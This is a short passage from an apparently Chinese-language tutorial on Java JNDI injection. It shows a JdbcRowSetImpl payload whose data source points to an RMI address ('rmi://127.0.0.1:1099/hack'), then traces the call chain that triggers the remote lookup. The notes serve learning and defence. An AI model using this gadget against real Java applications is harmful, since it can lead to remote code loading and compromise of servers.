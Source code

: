 ![image-20221018202125337](img/image-20221018202125337.png)

#### JdbcRowSetImpl触发注入

payload:

```java
JdbcRowSetImpl jdbcRowSet=new JdbcRowSetImpl();
jdbcRowSet.setDataSourceName("rmi://127.0.0.1:1099/hack");
jdbcRowSet.execute();
```

跟一下就知道了：

`execute`->`prepare()`->`connect()`

因为第一个连接`this.conn`为空，我们将`DataSourceName`设置为`rmi://127.0.0.1:1099/hack`

创建一个`JNDI服务`，直接通过lookup访问rmi服务端
